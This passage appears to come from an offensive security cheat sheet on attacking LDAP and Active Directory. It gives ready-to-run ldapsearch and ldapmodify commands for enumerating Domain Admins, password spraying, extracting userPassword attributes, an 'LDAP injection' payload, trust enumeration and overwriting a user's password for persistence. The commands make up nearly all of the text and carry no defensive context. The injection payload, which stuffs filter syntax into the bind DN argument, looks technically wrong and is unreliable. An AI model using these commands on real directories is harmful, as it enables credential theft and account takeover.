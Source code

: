 #### 1.5 Enumerate Domain Admins via LDAP
- **List Domain Admins**: Retrieves accounts that are members of the "Domain Admins" group by filtering the `memberof` attribute.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(memberof=CN=Domain Admins,CN=Users,DC=domain,DC=com)" sAMAccountName
  ```

### 2. LDAP Exploitation Techniques

#### 2.1 Password Spraying via LDAP
- **LDAP Password Spraying**: Attempts to authenticate with the LDAP server using a username and password. Can be used in conjunction with password spraying tools to automate the process.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>'
  ```

#### 2.2 Extracting Sensitive Information via LDAP
- **Retrieve User Password Hashes (If accessible)**:  Attempts to retrieve the `userPassword` attribute for users, although most secure configurations will not allow this.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=person)" userPassword
  ```

#### 2.3 LDAP Injection Attack
- **LDAP Injection (Example Payload)**: This payload exploits LDAP injection by injecting a filter that can enumerate privileged accounts such as "admin" users.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=*)(cn=*))" -D "CN=<username>,DC=domain,DC=com)(cn=*))(|(cn=admin)(cn=*" -w '<password>'
  ```

#### 2.4 Enumerating LDAP Trusts
- **Trust Enumeration via LDAP**: Enumerates domain trusts by querying the `trustedDomain` objectClass under the Configuration container.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Configuration,DC=domain,DC=com" "(objectClass=trustedDomain)"
  ```

### 3. Post-Exploitation and Persistence via LDAP

#### 3.1 Modifying LDAP Entries
- **Change User Attributes**: Modifies the `userPassword` attribute for a user, effectively changing their password. Requires appropriate privileges.
  ```
  ldapmodify -x -H ldap://<target_ip> -D "CN=<username>,DC=domain,DC=com" -w '<password>' <<EOF
  dn: CN=<target_user>,DC=domain,DC=com
  changetype: modify
  replace: userPassword
  userPassword: new_password
  EOF
  ```
